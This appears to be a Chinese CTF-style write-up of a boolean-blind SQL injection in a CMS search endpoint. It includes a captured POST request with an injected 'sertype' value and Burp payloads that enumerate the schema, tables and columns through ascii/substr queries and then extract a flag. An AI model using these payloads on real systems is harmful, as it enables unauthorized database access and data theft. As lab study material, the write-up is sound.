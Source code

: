 ```yaml
---
title: "中环 CMS 主页面存在 SQL 注入"
date: 2024-02-19
description: "主页面搜索功能的 post 请求中搜索类型这个变量可以执行 sql 注入的恶意语句"
tags: ["SQL 注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


## 注入点

第一次见到这种注入点。我们在搜索框输入 t 然后抓包，这是为了保证返回的搜索内容不为空。

![sqli7](/images/sqli1/sqli7-4.png)

发现 sertype 变量在加入恒真恒伪后提供了一个布尔盲注点位。

    POST /index.php/index/search HTTP/1.1
    Host: 111.9.41.91:53009
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 140
    Origin: http://111.9.41.91:53009
    Connection: close
    Referer: http://111.9.41.91:53009/index.php/index/search
    Cookie: admin=admin; pass=21232f297a57a5a743894a0e4a801fc3; PHPSESSID=0gficahl2rfqurrer05uhkdv96
    Upgrade-Insecure-Requests: 1

    sertype=1 and 1=2;#&search=t&sub=%E6%90%9C%E7%B4%A2

![sqli7](/images/sqli1/sqli7-5.png)

## 爆破

开 burp 爆破。

构造如下 payload。

    1 and ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1))=100;# 

    1 and ascii(substr((select table_name from information_schema.tables where table_schema='flag_db' limit 0,1),1,1))=1;#  

    1 and ascii(substr((select column_name from information_schema.columns where table_schema='flag_db' and table_name='flag' limit 0,1),1,1))=1;#  

    1 and ascii(substr((select value from flag_db.flag limit 0,1),1,1))=1;#  

其中 burp 的 payload 位置如下。

    1 and ascii(substr((select schema_name from information_schema.schemata limit $0$,1),$1$,1))=$1$;# 

得到如下结果。

102 108 97 103 95 100 98 flag_db

102 108 97 103 flag

105 100 id 118 97 108 117 101 value

121 119 97 113 123 73 104 122 120 100 73 72 71 115 106 125 ywaq{IhzxdIHGsj}

得到 flag=ywaq{IhzxdIHGsj}。

其中 burp 结果如下图所示。

![sqli7](/images/sqli1/sqli7-1.png)

![sqli7](/images/sqli1/sqli7-0.png)

![sqli7](/images/sqli1/sqli7-2.png)

![sqli7](/images/sqli1/sqli7-3.png)